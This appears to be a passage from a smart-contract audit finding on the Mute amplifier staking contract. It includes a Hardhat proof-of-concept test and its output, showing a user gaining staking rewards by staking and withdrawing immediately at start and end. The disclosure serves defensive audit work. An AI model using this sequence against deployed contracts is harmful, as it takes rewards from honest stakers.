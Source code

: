     if (_mostRecentValueCalcTime == 0) {
                _mostRecentValueCalcTime = firstStakeTime;
            }

However, this doesn't do anything since the user can first set the firstStakeTime by staking as soon as the staking period starts, and then make totalCurrentStake 0 by immediately withdrawing. In fact, observe that this takes away from other staker's rewards since perSecondReward is now lower.
<https://github.com/code-423n4/2023-03-mute/blob/main/contracts/amplifier/MuteAmplifier.sol#L98><br>
`uint256 perSecondReward = totalRewards.div(endTime.sub(firstStakeTime));`

Please add the following test to the "advance to start time" context in amplifier.ts (add it [here](https://github.com/code-423n4/2023-03-mute/blob/main/test/amplifier.ts#L157)), and run with `npm run test-amplifier`.

    it("get reward without staking", async function () {
            await this.lpToken.transfer(this.staker1.address, staker1Initial.toFixed(), {from: this.owner.address});
            await this.lpToken.connect(this.staker1).approve(
              this.amplifier.address,
              staker1Initial.toFixed()
            );
            
            console.log("dmute balance before: " + await this.dMuteToken.balanceOf(this.staker1.address))
            await this.amplifier.connect(this.staker1).stake(1);
            await this.amplifier.connect(this.staker1).withdraw();
            await time.increaseTo(staking_end-10);
            await this.amplifier.connect(this.staker1).stake(1);
            await this.amplifier.connect(this.staker1).withdraw();
            console.log("dmute balance after: " + await this.dMuteToken.balanceOf(this.staker1.address))
          });

          it("get reward with staking", async function () {
            await this.lpToken.transfer(this.staker1.address, staker1Initial.toFixed(), {from: this.owner.address});
            await this.lpToken.connect(this.staker1).approve(
              this.amplifier.address,
              staker1Initial.toFixed()
            );
            console.log("dmute balance before: " + await this.dMuteToken.balanceOf(this.staker1.address))
            await this.amplifier.connect(this.staker1).stake(1);
            //await this.amplifier.connect(this.staker1).withdraw();
            await time.increaseTo(staking_end-10);
            //await this.amplifier.connect(this.staker1).stake(1);
            await this.amplifier.connect(this.staker1).withdraw();
            console.log("dmute balance after: " + await this.dMuteToken.balanceOf(this.staker1.address))
          });

Result on my side:

    advance to start time
            ✓ reverts without tokens approved for staking
    dmute balance before: 0
    dmute balance after: 576922930658129099273
            ✓ get reward without staking
    dmute balance before: 0
    dmute balance after: 576922912276064160247
            ✓ get reward with staking
